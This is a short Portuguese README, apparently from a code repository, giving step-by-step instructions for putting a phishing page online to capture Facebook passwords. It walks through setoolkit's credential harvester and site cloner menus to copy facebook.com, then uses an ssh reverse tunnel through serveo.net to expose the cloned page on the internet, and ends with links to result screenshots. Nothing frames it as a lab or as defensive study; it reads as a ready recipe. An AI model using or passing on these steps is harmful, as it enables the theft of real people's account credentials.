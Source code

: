 # Subindo um phishing para captura de senhas do Facebook na internet

### Ferramentas

- Kali Linux
- setoolkit
- ssh

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Configurando o ssh
> ssh -R 80:localhost:80 serveo.net

### Resutados

![Alt text](./poc-2.jpg "Optional title")

![Alt text](./poc-2.jpg "Optional title")

![Alt text](./poc-3.jpg "Optional title")
